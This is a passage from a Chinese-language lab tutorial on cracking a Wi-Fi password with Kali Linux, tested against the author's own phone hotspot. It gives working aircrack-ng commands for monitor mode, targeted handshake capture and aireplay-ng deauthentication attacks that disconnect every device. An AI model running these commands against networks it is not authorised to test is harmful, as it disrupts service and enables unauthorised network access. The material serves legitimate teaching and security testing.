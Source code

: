 **4. 实验过程**

实验环境搭建： 我这里使用手机开热点作为攻击的目标（路由器），使用我的物理机笔记本连接热点（正常连接设备），开启虚拟机kali并把有线连接关闭（尽可能防止实验干扰），插入我们准备的无线网卡，这里虚拟机会提示连接到物理机还是虚拟机，选择虚拟机 kali 即可~

整个 wifi 破解过程，包括三个步骤：

（1） WIFI 信息收集
（2） WIFI 连接握手包抓取
（3） 利用密码字典暴力跑包

**Step1：首先在kali中打开终端，使用“ifconfig”命令查看网卡信息**

```
ifconfig
或者
iwconfig
```

**Step2：开启网卡的监听模式**

```
airmon-ng start wlan0		//指定网卡名字wlan0，开启监听模式
```

**Step3：别的程序在占用网卡，可以使用标红处命令清理**

```
airmon-ng check kill  //清理掉占用网卡的程序，使airmon-ng工具可支配网卡
```

**Step4：检查是否成功开启了监听模式**

```
ifconfig		//wlan0变成了wlan0mon，这就是开启侦听模式的标志
```

**Step5：扫描发现一下附近的WiFi**

```
airodump-ng wlan0mon  //指定监听模式下的网卡名字
```
![](https://img.arctee.cn/one/202207111745445.png)

一般信号最强的在第一行，这时候可以 ctrl+c 结束一下

**Step6：只对我们的目标进行侦听抓包，不理会其他WiFi**

```
airodump-ng --bssid B4:CD:27:DF:BF:AE -c 1 --write wifi1 wlan0mon
//--bssid参数指定目标的MAC地址，-c参数指定信道数，也就是CH那一列，--write参数指定抓到的包存放文件名字，wlan0mon指定网卡名字
```

**Step7：让这个终端放着，重新打开一个终端，对WiFi热点攻击，使所有设备断开连接**

```
aireplay-ng -0 20 -a B4:CD:27:DF:BF:AE wlan0mon  //-0参数指定发送攻击数据包的个数，-a参数指定攻击设备的MAC地址，wlan0mon指定无线网卡名字
```

![](https://img.arctee.cn/one/202207102316070.png)

